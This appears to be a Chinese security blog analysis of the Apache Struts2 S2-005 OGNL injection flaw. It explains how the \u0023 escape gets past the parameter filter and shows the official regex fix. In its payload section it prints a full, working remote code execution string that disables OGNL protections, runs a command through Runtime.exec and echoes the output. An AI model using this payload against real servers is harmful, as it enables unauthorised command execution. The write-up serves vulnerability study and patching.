

expression()的解析主要来自于ognl-2.6.11-sources.jar/ognl/JavaCharStream.java readChar函数.在295行打一个断点



当\之后为u时,则会进行专门的处理,经过处理后\u0023就会转化为#从而绕过了安全限制



&emsp;&emsp;&emsp;&emsp; 7.payload分析

&emsp;&emsp;&emsp;&emsp;前一部分('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003dfalse')(bla)(bla)是关闭了denyMethodExecution函数
&emsp;&emsp;&emsp;&emsp;('\u0023_memberAccess.allowStaticMethodAccess\u003dtrue')(bla)(bla)是打开了allowStaticMethodAccess函数

&emsp;&emsp;&emsp;&emsp;剩余的就是执行命令并回显出来&('\u0023_memberAccess.excludeProperties\u003d@java.util.Collections@EMPTY_SET')(kxlzx)(kxlzx)&('\u0023mycmd\u003d\'whoami\'')(bla)(bla)&('\u0023myret\u003d@java.lang.Runtime@getRuntime().exec(\u0023mycmd)')(bla)(bla)&(A)(('\u0023mydat\u003dnew\40java.io.DataInputStream(\u0023myret.getInputStream())')(bla))&(B)(('\u0023myres\u003dnew\40byte[51020]')(bla))&(C)(('\u0023mydat.readFully(\u0023myres)')(bla))&(D)(('\u0023mystr\u003dnew\40java.lang.String(\u0023myres)')(bla))&('\u0023myout\u003d@org.apache.struts2.ServletActionContext@getResponse()')(bla)(bla)&(E)(('\u0023myout.getWriter().println(\u0023mystr)')(bla))


## 漏洞修复

> 官方修复代码最终使用了更加严格的正则[a-zA-Z0-9\\.\\]\\[\\(\\)_'\\s]+来校验参数名的合法性

```java
public class ParametersInterceptor extends MethodFilterInterceptor {
    private static final Logger LOG = LoggerFactory.getLogger(ParametersInterceptor.class);
    boolean ordered = false;
    Set<Pattern> excludeParams = Collections.emptySet();
    Set<Pattern> acceptParams = Collections.emptySet();
    static boolean devMode = false;
    private String acceptedParamNames = "[a-zA-Z0-9\\.\\]\\[\\(\\)_'\\s]+";
    private Pattern acceptedPattern;
    private ValueStackFactory valueStackFactory;
    static final Comparator<String> rbCollator = new Comparator<String>() {
        public int compare(String s1, String s2) {
            int l1 = 0;
            int l2 = 0;

            int i;
            for(i = s1.length() - 1; i >= 0; --i) {
                if (s1.charAt(i) == '.') {
                    ++l1;
                }
            }

            for(i = s2.length() - 1; i >= 0; --i) {
                if (s2.charAt(i) == '.') {
                    ++l2;
                }
            }

            return l1 < l2 ? -1 : (l2 < l1 ? 1 : s1.compareTo(s2));
        }
    };
```

## 总结

> struts2漏洞的精髓在ongl表达式......,这次S2-005漏洞纯碎是送分题.

## 参考

> https://github.com/xhycccc/Struts2-Vuln-Demo

> https://www.sqyysec.com/Struts2-005%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/

> https://xz.aliyun.com/t/2323#toc-6

> https://lorexxar.cn/2019/09/23/javaweb-S2/#S2-003-amp-S2-005

> https://lanvnal.com/2020/12/15/s2-001-lou-dong-fen-xi/
